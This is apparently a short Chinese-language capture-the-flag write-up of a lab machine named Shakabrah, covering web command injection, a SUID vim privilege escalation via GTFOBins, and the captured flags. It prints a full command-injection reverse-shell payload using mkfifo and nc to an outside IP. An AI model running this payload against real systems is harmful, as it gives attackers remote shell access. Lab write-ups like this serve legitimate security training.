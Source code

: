 # Shakabrah  
  
是Web題  
![](images/p7q13rR.png)  
  
一進去感覺就是要Command Injection 戳一個Payload就能RCE了  
(這題有環境問題 只能用他指定的Payload戳Reverse shell)  
`;rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.49.173 80 > /tmp/x"`  
![](images/We0odDV.png)  
  
![](images/zpFKcO7.png)  
  
## 提權  
  
翻SUID文件找到一個奇怪的檔案 運行以後發現是vim  
![](images/b6HnMnJ.png)  
  
![](images/gEf4Hwl.png)  
  
到GTFOBins上找SUID的提權就直接root了 但因為沒有python所以要用py3  
![](images/PyVKi0l.png)  
  
![](images/vSGmvSS.png)  
  
## Proof  
  
local.txt  
`f857a1b073bf4f504ff6d4ff8db81cc5`  
![](images/icHhL7l.png)  
  
proof.txt  
`a7a335ff352dc977cb424287ba031808`  
![](images/aAf8LeN.png)